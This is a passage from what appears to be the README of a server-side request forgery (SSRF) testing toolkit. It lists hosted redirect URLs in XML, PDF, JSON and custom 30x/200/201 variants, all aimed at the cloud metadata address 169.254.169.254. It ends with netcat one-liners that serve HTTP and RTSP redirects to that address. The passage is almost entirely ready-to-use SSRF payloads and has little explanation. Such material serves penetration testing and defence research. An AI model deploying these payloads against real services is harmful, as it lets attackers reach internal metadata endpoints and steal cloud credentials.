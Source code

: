 xml 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/xml-without-body/301-http-169.254.169.254:80-.x.xml`

`https://ssrf.localdomain.pw/xml-without-body-md/301-http-.x.xml`

`https://ssrf.localdomain.pw/xml-with-body/301-http-169.254.169.254:80-.x.xml`

`https://ssrf.localdomain.pw/xml-with-body-md/301-http-.x.xml`

pdf 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/pdf-without-body/301-http-169.254.169.254:80-.p.pdf`

`https://ssrf.localdomain.pw/pdf-without-body-md/301-http-.p.pdf`

`https://ssrf.localdomain.pw/pdf-with-body/301-http-169.254.169.254:80-.p.pdf`

`https://ssrf.localdomain.pw/pdf-with-body-md/301-http-.p.pdf`

***

### custom-30x - Custom 30x responses and Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-30x/?code=332&url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-200 - Custom 200 response and Content-Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-200/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### custom-201 - Custom 201 response and Location header with PHP

#### Live demo:

`https://ssrf.localdomain.pw/custom-201/?url=http://169.254.169.254/&content-type=YXBwbGljYXRpb24vanNvbg==&body=eyJhIjpbeyJiIjoiMiIsImMiOiIzIn1dfQ==&fakext=/j.json`

***

### Minimal web server using netcat

`while true ; do nc -l -p 80 -c 'echo -e "HTTP/1.1 302 Found\nContent-Type: application/json\nLocation: http://169.254.169.254/\n{\"a\":\"b\"}"'; done`

`export RTSPLOCATION="http://169.254.169.254/"; while true ; do nc -l -p 554 -c 'echo -e "RTSP/1.0 301 Moved\nCSeq: 1\nLocation: $RTSPLOCATION"'; done`
